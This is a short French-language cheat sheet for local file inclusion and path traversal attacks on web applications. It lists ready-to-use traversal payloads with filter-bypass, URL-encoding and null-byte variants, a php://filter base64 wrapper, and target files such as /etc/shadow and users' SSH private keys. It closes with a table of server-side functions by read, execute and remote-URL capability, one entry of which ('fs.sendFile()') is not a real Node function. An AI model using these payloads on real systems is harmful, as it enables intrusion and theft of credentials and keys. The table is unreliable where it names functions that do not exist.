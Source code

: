 ### Techniques de base:

`=/etc/passwd`

`=../../../../../../etc/passwd`

`=....//....//....//....//....//....//....//etc/passwd`

`=....////....////....////....////....////etc/passwd`

`=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd (url encode)`

`=/gallery/../../../../../../../etc/passwd (en cas d'obligation de la présence d'un chemin approuvé dans l'url)`

`=../../../../etc/passwd%00 (null byte)`

---
### PHP filters:

```url
php://filter/read=convert.base64-encode/resource=../../../etc/passwd
```

---
Fichiers intéressants à lire :

```
/etc/passwd
/proc/$PID/cmdline (générer une wordlist avec des chiffres de 1 à 1000)
/etc/shadow
/home/$user/.ssh/id_rsa
/var/www/html/fichierdeconfig.php
/var/www/html/LesDifférentesPages // permet de voir le code source éventuellement)

```


---

| **Function** | **Read Content** | **Execute** | **Remote URL** |
| ----- | :-----: | :-----: | :-----: |
| **PHP** |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `require()`/`require_once()` | ✅ | ✅ | ❌ |
| `file_get_contents()` | ✅ | ❌ | ✅ |
| `fopen()`/`file()` | ✅ | ❌ | ❌ |
| **NodeJS** |
| `fs.readFile()` | ✅ | ❌ | ❌ |
| `fs.sendFile()` | ✅ | ❌ | ❌ |
| `res.render()` | ✅ | ✅ | ❌ |
| **Java** |
| `include` | ✅ | ❌ | ❌ |
| `import` | ✅ | ✅ | ✅ |
| **.NET** | |
| `@Html.Partial()` | ✅ | ❌ | ❌ |
| `@Html.RemotePartial()` | ✅ | ❌ | ✅ |
| `Response.WriteFile()` | ✅ | ❌ | ❌ |
| `include` | ✅ | ✅ | ✅ |
